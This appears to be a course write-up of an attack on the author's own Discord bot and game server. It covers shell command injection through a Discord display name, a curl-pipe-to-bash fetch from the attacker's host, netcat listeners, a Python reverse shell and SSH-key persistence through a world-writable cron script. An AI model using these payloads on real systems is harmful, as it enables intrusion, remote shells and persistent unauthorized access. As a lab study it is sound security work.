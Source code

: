 # Exploiting Discord Bot Vulnerability to Gain Access to Game Server Files


---


## Introduction
I own a personal server that hosts both a game server and a Discord bot, which provides various functionalities to players, such as displaying game statistics, rolling dice, and many others.

The Discord bot is a program that continuously listens to messages in a designated chat channel and executes commands or functions depending on the message content.

During a Cybersecurity course, I discovered a vulnerability in the Discord bot’s Python code that allows remote code execution without requiring user interaction. Exploiting this flaw, combined with a misconfiguration in the file permissions of a script, I was able to gain unauthorized access to the game server’s files.  





### Server Enviroment
The game server and the Discord bot are running under two different system users to enforce a basic privilege separation:

- The Discord bot runs under `user-a`.
- The game server runs under `user-b`, which owns all the game files.


### Vulnerability
The Vulnerability is a line in the code of the funcion "dice" that permits code injection by changing the username of the Discord Accounts
```python
if message.content.startswith('!dice'):
    dice = random.randint(1,6)
    username = message.author.display_name
    subprocess.run(f'python3 ./logWriter.py {username} {dice}', shell=True)  #  <--- Vulnerable code
    await message.channel.send(f"{username}, hai estratto: {dice}")
```
Since the code is executed in a shell, inserting a ; in the username allows the shell to treat what follows as a separate command instead of passing it as a parameter to logWriter.py.


### Misconficuration
In addition to the code injection vulnerability, the system also presented a misconfiguration related to file permissions. The `server_start.sh` script, which is executed at system startup via a crontab entry belonging to `user-b`, was located inside `user-a`'s home directory with permissions set to `rwxrwxrwx`, allowing any user on the system to modify it.

Since this script is executed by the game server process running under `user-b`, modifying its content and then restarting the server makes it possible to execute arbitrary code with `user-b`'s privileges, ultimately granting access to the game server files.

  
---



## Threat model
- Attacker has access to send messages in the Discord chat monitored by the bot.  
- Attacker is aware of the injection vulnerability in the bot’s username handling.
  
---



## Attacker Setup
The Attacker uses 2 netcat processes, one listening on 8080, the other on 8081.
#### Nat Configuration
![Nat Configuration](images/Nat_Configuration.png)

### Server process 1

```
clear
while true; do
nc -l -p 8080 -w 1 < response.txt
done
```
### Server process 2

```
clear
nc -lvnp 8081
```  

In the response.txt file there is the payload that the attacker wants to execute, wich is sent as a response to http get requests to `process 1`.
  



## Exploit

The desired payload can not always be injected directly through the username due to the 32-character limit (including spaces).  
To work around this limitation, a remote listener was set up to serve the full payload.  
The exploit injects a command in the username that makes the bot fetch and execute code from a remote `response.txt` file.  
The username used for this injection was:

```
;curl ip-attacker:8080 | bash;
```

  
---

## Execution

#### 1)Reverse Shell

The file `response.txt` was created with the following content to establish a reverse shell:


```
HTTP/1.1 200 OK
Content-Type: text/plain
Content-Length: 197

python3 -c
'import socket,subprocess,os;
s=socket.socket();
s.connect(("79.40.232.212",8081));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);'
```
This Python command creates a reverse shell:

- It opens a socket connection to `79.40.232.212` on port `8081`.
- It redirects the socket file descriptor to stdin (`0`), stdout (`1`), and stderr (`2`), effectively binding the shell’s input and output to the network connection.
- It starts an interactive `/bin/sh` shell, allowing the attacker to execute commands remotely through the established connection.

#### 2)Listeners
Two listener processes were set up on the attacker machine by running the corresponding server code to serve the malicious payload and receive the reverse shell connection.

#### 3)Username
The Discord username was modified to include a shell injection payload due to the vulnerability in the bot’s input handling.  
The username was set to:

`;curl ip-attacker:8080 | bash;`

#### 4) Triggering the Vulnerability

With the username set, the attacker can trigger the exploit by sending the command `!dice` to the bot.

  

---

## Post-Exploitation
Once i obtained a reberse shell, and i was able to navigate inside the user-a folder, accessing all doscord bot's files, including user-b's script `server_start.sh`

![Nat Configuration](images/Initial_Access.png)

But i did not have access rights to user-b folder, containing the game server's files
![Nat Configuration](images/Screenshot_tree.png)

  
---

## Privilege Escalation

One way to gain access to the `/home/user-b` files was to modify the `server_start.sh` script. Since this script is executed by a cron job with the `@reboot` directive, any modification would be executed automatically on the next server reboot, running with `user-b`'s privileges.

However, relying on server restarts each time to execute arbitrary code would be impractical. Therefore, to gain persistent access as `user-b`, I injected a public SSH key into `user-b`'s `authorized_keys` file. This allowed me to establish an SSH connection directly as `user-b`, granting continuous access to the required files without waiting for server reboots.

First, I generated an SSH key pair using `ssh-keygen`:

```
$ ssh-keygen
Generating public/private ed25519 key pair.
Enter file in which to save the key (/home/attacker/.ssh/id_ed25519): /home/attacker/.ssh/innocent_key
Enter passphrase (empty for no passphrase):
Enter same passphrase again:
Your identification has been saved in /home/attacker/.ssh/innocent_key
Your public key has been saved in /home/attacker/.ssh/innocent_key.pub
The key fingerprint is:
SHA256:choqayqE6Q8JhczNELYiT7055YgjVS9IVNSOgiAP5XM attacker@attacker
The key's randomart image is:
+--[ED25519 256]--+
| *=o+.           |
|B+=+ ..          |
|*BBoEoo          |
|+=o+.B.          |
|+.+.= + S        |
|+o.. o =         |
|oo. . .          |
|..oo             |
|ooo.             |
+----[SHA256]-----+
```

Then, I appended the generated public key to `user-b`'s `authorized_keys` by modifying `server_start.sh` as follows:


```
echo "echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGzTv8FEFTYsiVF7rOQFz/+Zme92ZgdrAvfe0KavA4xA'
>> /home/user-b/.ssh/authorized_keys" >> server_start.sh
```


This ensured that, upon the next reboot, the server would automatically add the attacker's public key, granting SSH access as `user-b`.
  
----

## Server Restart

After modifying the `server_start.sh` script to include the attacker’s public SSH key, it was necessary to wait for the server to restart in order to trigger the cron job execution.  
Once the server rebooted, the injected code ran with `user-b` privileges, granting persistent access to the game server files and enabling SSH login as `user-b`.
